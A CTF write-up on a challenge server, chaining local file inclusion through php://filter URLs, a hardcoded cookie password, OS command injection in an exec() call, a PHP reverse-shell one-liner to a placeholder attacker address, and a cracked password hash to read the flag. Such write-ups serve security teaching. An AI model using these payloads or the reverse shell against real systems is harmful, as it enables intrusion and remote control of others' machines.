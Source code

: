 # CTF Write-up: Local File Inclusion (LFI) and OS Command Injection

## Challenge Summary
The application was vulnerable to Local File Inclusion (LFI), allowing us to read system files. The vulnerability was found at:
```
http://43.205.178.174:8181/?file=
```

### Step 1: Exploiting LFI with PHP Wrappers
To read files, we used PHP wrappers, specifically `php://filter` to base64 encode the output.
```
http://43.205.178.174:8181/?file=php://filter/read=convert.base64-encode/resource=wc.php
```

After decoding the base64 response, we retrieved the content of `wc.php`, revealing the following important check:
```php
if ($_COOKIE['password'] !== getenv('PASSWORD')) {
    setcookie('password', 'PASSWORD');
    die('Sorry, only people from CTF7 are allowed to access this page.');
}
```
This indicated that a valid cookie password from an environment variable was needed.

### Step 2: Finding the Password
The `robots.txt` file referenced `checkpass.php`, which we retrieved using LFI:
```
http://43.205.178.174:8181/?file=php://filter/read=convert.base64-encode/resource=checkpass.php
```
Decoding it revealed:
```php
$password = "w0rdc0unt123";
```
This was the cookie password needed to bypass the authentication check in `wc.php`.

### Step 3: Gaining Command Execution
After setting the cookie with the password, we gained access to `wc.php`, which contained an OS command injection vulnerability in:
```php
exec('printf '' . $text . '' | wc -c')
```
By injecting shell commands, we spawned a reverse shell using:
```bash
php -r '$sock=fsockopen("$your_adress_ip", $port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Step 4: Privilege Escalation
Using `find`, we searched for `flag.txt`:
```bash
find / -name flag.txt 2>/dev/null
```
It was located at:
```
/ctf/system/of/a/down/flag.txt
```
However, it was only accessible by `ctf` or `root` users. In `/ctf`, a `README` file contained a hashed password:
```
6f246c872cbf0b7fd7530b7aa235e67e
```
Cracking it with CrackStation revealed the password: `csictf`.

### Step 5: Reading the Flag
We switched to the `ctf` user using:
```bash
su ctf
Password: csictf
```
Navigating to the flag directory:
```bash
cd /ctf/system/of/a/down/
cat flag.txt
```
Flag obtained:
```
ctf7{1nj3ct10n_is_p41nfu1}
```



